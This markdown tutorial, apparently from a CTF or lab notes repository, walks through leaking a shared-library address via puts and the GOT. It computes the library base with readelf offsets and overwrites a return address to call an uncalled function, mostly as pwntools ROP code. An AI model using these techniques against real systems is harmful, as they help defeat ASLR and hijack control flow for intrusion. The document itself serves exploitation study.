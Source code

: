 # Leak an Address

## Address Leak to Call a Non-Imported Function

*Setup: a desired function is in a shared library but is not called in the binary.*  
*The binary calls a different function from the shared library*  

Use `readelf` to determine the target functions offset from the library base:  

```bash
readelf -s libpivot32.so
```

Then find the offsets for the target function and the foothold function.  

Use pwntools to load some known addresses:  

```python3
from pwn import *
elf = ELF(".vuln")

foothold_plt = p32(elf.plt.foothold_function)   # Function from the shared library
foothold_got = p32(elf.got.foothold_function)   # Function from the shared library
puts_plt = p32(elf.plt.puts)                    # function we can use to cause a leak
main_ptr = p32(elf.symbols.main)                # needed to rerun the program and maintain address values

foothold_offset = 0x77d
ret2win_offset = 0x974
```

Leak the address:  

```python3
addr_leak = ([
    foothold_plt,   # Populate the Global Offset Table with addresses. The inmported function from the shared library is used.
    puts_plt,       # Use puts to output the address of foothold_function in the Global Offset Table
    main_ptr,       # Run main again so that we can provide a new payload to call the target function
    foothold_got    # Argument for puts, the address to leak
])
io.sendline(addr_leak)
```

Receive the output of `puts` and carve out the address:  

```python3
io.recvuntil(b"whatever\n")   # bytes preceeding the leak
leaked_addresses = io.recv()    # receive data until the next input. Likely to contain more than 1 address -> the first is the one we want
foothold_leak = unpack(leaked_addresses[:4])    # read the first 4 bytes (32bit address. [:8] for 64bit addresses
```

Calculate the offset to the desired function by first calculating the shared libraries base,  
then adding the offset to the desired function:  

```python3
lib_base = foothold_leak - foothold_offset    # subtracting the offset to foothold_function (found by readelf) from the leaked foothold_function address in the GOT
ret2win_addr = lib_base + ret2win_offset      # adding the libraries base address and the offset to the target function, resulting in the actual address
```

The target functions address can now be placed on the stack, where a return address is overwritten:  

```python3
win = flat([
    b"A" * offset,
    ret2win_addr
])
io.sendline(win)
```
